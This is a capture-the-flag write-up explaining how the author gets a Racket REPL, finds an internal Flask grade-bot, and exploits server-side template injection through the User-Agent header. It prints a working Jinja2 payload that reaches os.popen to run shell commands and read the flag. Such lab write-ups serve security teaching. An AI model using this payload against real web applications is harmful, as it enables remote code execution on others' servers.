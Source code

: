 # Tennis Racket 2
## Challenge Description
I just found out my CS Prof is going to be teaching us Python next semester!
Lets see if I can find anything useful for next semester on his computer too...

## Files
`Program` is the challenge host files and `sol.rkt` is the solution to the challenge

## Solution
When you connect to the netcat server, you instantly get dropped into a Racket REPL:

![alt repl](./img1.png)

By reading the flag file using the below Racket code,

```racket
#lang racket
(for ([line (file->lines "file.txt")])
  (displayln line))
```

you will get back the flag file content:

```
TODO List:
1. Grade Racket Assignments
2. Test out new website at http://tennisracket2-grade-bot:5000
3. Chase students for tuition fee
4. Mend my broken relationship with my daughter
```

From the above TODO list, there is a URL to a web server, sending a simple GET request to this webserver using Racket will yield the following result:

```racket
> (require net/http-easy)
  (define res (get "http://tennisracket2-grade-bot:5000"))
  (println (response-body res))

#"\n    \n    <h1>Hi! Grade-bot is still a work-in-progress.</h1>\n    <p>Here is some debug information:</p>\n    \n    net/http-easy (unix; racket[CS] 8.4; 0.3.5)\n    \n    "
```

Its a HTML page that also returns some debug information that looks like a User Agent. Since there is no acompanying Javascript on this page, the User Agent has to be injected into the page via the server.

By checking the response headers of the request, we learn that the web server is actually a python server, possibly Flask or Django?

```racket
> (println (response-headers res))

'(#"Server: Werkzeug/2.1.2 Python/3.9.12" #"Date: Sun, 08 May 2022 16:21:16 GMT" #"Content-Type: text/html; charset=utf-8" #"Content-Length: 167" #"Connection: close")
```

We can then test to see if a Jinja Templating Injection is possible by sending the following data as a User Agent in the request:

```racket
(define res (get "http://tennisracket2-grade-bot:5000" #:user-agent "{{ 7 + 13 }}"))
(println (response-body res))
```

And we get the following result which shows the server executed `7 + 13` and returned `20` as the debug information!

```
#"\n    \n    <h1>Hi! Grade-bot is still a work-in-progress.</h1>\n    <p>Here is some debug information:</p>\n    \n    20\n    \n    "
```

This means we can now execute python code on the server, and Jinja serverside templating injection is possible. Now we can build our payload and once we send the following payload:

```racket
(define res (get "http://tennisracket2-grade-bot:5000" #:user-agent "{{ \"\".__class__.__base__.__subclasses__()[449].__init__.__globals__['sys'].modules['os'].popen('cat flag').read() }}"))
(println (response-body res))
```

We will get our flag in the response:
```
#"\n    \n    <h1>Hi! Grade-bot is still a work-in-progress.</h1>\n    <p>Here is some debug information:</p>\n    \n    NYP{r5ck3t_fl5sk_sst1}\n    \n    "
```

You can read up more on Serverside Templating Injection in Flask/Jinja [Here](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee).

The flag is `NYP{r5ck3t_fl5sk_sst1}`